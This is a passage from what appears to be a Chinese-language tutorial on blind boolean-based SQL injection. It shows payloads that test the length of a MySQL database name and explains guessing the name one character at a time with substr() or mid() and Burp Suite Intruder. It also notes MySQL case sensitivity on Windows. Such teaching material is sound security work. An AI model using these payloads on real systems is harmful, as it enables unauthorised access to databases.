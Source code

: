 ```plain
//先猜测数据库名是否比 5 长，发现为真
1' and length(database())>5--+

//再判断数据库是否比 10 长，发现为假
1' and length(database())>10--+

//此时数据库大于 5 小于等于 10，依次尝试可以发现长度为 8
1' and length(database())=8--+
```

拿到长度后，我们使用`substr()`函数或`mid()`函数一位一位的猜测数据库字符，Mysql 库名一共可以使用 63 个字符，分别是：`a-z`、`A-Z`、`0-9`、`_`  
[![](assets/1707953831-fdd0bed60ef42dbb334405b7bce75c8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191745-057963ca-c34f-1.png)  
这里我们先来判断第一位是什么字符，这里我们使用 Burp Suite Intruder 模块快速进行，将字符标记为 Payload 设置字典为 `a-z`、`A-Z`、`0-9`、`_`，发现 s 和 S 回显长度与其他字符不同，说明这里第一位是 s，这里大小写都有是**因为 Mysql 在 Windows 下对大小写不敏感**

> MySQL 在 Windows 下不区分大小写，但在 Linux 下默认是区分大小写，由`lower_case_file_system`和`lower_case_table_names`两个参数控制

[![](assets/1707953831-05a6cfaa8ec0a2c01b0a6424a680be7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191816-17e82730-c34f-1.png)
